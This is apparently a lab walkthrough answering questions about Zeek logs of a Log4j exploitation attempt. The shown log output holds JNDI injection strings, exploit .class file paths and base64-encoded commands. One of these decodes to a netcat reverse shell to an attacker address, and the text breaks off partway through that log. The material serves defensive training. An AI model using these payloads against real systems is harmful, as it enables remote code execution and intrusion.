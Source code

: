```
ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ cat signatures.log | zeek-cut sig_id | wc -l 
3
```

Q2 Investigate the http.log file. Which tool is used for scanning?
Hint: user agent

A2 nmap

```
ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut user_agent | sort -u
${jndi:ldap://127.0.0.1:1389}
${jndi:ldap://192.168.56.102:389/test}
${jndi:ldap://192.168.56.102:389}
${jndi:ldap://192.168.56.102}
Java/1.8.0_181
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
SecurityNik Testing

```

Q3 Investigate the http.log file. What is the extension of the exploit file?
Hint: uri

A3 .class 

```
ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut uri | sort -u
/
/Exploit6HHc3BcVzI.class
/ExploitQ8v7ygBW4i.class
/ExploitSMMZvT8GXL.class
/testing1
/testing123
testing1
```

Q4 Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?
Hint: You can use online decoders or use Linux terminal features. "echo 'base64 data' | base64 --decode"

A4  pwned

```
ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ cat log4j.log | more
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	log4j
#open	2025-02-28-02-13-48
#fields	ts	uid	http_uri	uri	stem	target_host	target_p
ort	method	is_orig	name	value	matched_name	matched_value
#types	time	string	string	string	string	string	string	string	bool	
string	string	bool	bool
1640023652.008511	CPhUOJ3IdEr1dVrMgi	/	192.168.56.102:389/Basic
/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=	192.168.56.102:389	192.168.
56.102	389	GET	T	X-API-VERSION	${jndi:ldap://192.168.56.102:389
/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}	F	T
1640025554.661073	C6OoIU23bZZyvgV82j	/	192.168.56.102:389/Basic
/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==	192.168.56.102:389	
192.168.56.102	389	GET	T	X-API-VERSION	${jndi:ldap://192.168.56
.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}	F	T
1640026858.960398	Cvn14O2mNzzX8k5Yi8	/	192.168.56.102:389/Basic
/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==	192.168.
56.102:389	192.168.56.102	389	GET	T	X-API-VERSION	${jndi:l
dap://192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2
```